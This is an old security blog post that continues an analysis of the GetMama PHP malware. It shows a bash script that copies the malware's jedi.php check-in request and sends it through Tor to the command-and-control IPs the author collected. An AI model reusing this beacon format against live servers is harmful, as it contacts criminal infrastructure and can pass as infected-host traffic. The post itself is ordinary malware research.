 ```yaml
---
title: Deeper into the rabbit hole. The infinite-layer malware
date: 2012-04-16
tags:
    - malware
    - infosec
layout: layouts/old-post.njk
---
```


## About



In my last post I went through an analysis of a PHP malware that we identified by the name of GetMama. The study demonstrated that the software was completely dependent on remote instructions given by a C&C server queried from the injected code.

After a brief study of those C&C IPs I found that they were all nginx servers, running what appeared to be default just-installed pages with no content. But a commenter on *reddit* hinted me to try again those requests somehow faking them so they looked like requests from the actual malware. And so I did.

## Inspection

In order to protect myself I executed all queries through the Tor network. To do so, I wrote a small script that went through all the IPs I collected and did the same request the malware did.

	# We can give a specific IP. If not it gets a list from a file
	if [ -z $3 ]; then
		cat cncs/ips | while read line; do
			url="http://$line/jedi.php?version=$2&mother=$1&file=index.php&host=$1&ip=&ref=&ua=&qs=";
			proxychains4 curl $url;
		done
	else
		url="http://$3/jedi.php?version=$2&mother=$1&file=index.php&host=$1&ip=&ref=&ua=&qs=";
		proxychains4 curl $url;
	fi
	# Usage: ./request.sh DOMAIN VERSION [IP]

The script resulted in all the servers responding perfectly, so we can asset that they're still compromised as of this date. The unanimous response was the string *ebna*. As we saw in the last article, this means a client-side attack. Strangely enough, there was no actual Javascript payload attached to that *ebna* keyword, therefore the attack seemed to do nothing.

*Note: After some googling, looks like other people found out that tho C&C only server the payload once a day per IP, and only to Windows hosts. I tried again forcing a IE6 User-Agent, but didn't get any response either. Most likely all Tor exit nodes have been tagged already today.*
